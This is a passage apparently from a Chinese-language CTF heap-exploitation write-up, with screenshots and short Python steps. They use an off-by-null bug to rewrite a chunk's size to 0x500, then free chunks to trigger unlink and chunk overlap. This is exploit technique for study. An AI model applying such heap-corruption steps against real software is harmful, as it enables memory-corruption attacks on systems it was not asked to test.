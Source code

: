 ![image-20211226162256759](/images/heap/image-20211226162256759.png)

​    接着利用off by null漏洞改写chunk 1的size为0x500。

```python
free(1)
edit(0,'a'*0x18) #off by null
```

![image-20211226162339888](/images/heap/image-20211226162339888.png)

​    然后就可以进行chunk overlap了, 先将0x20的chunk释放掉，然后释放chunk2，这时触发unlink。

 ```python
 add(0x18)  #1
 add(0x4d8) #7 
 
 free(1)
 free(2)    #overlap
 ```

 ![image-20211226162411250](/images/heap/image-20211226162411250.png)
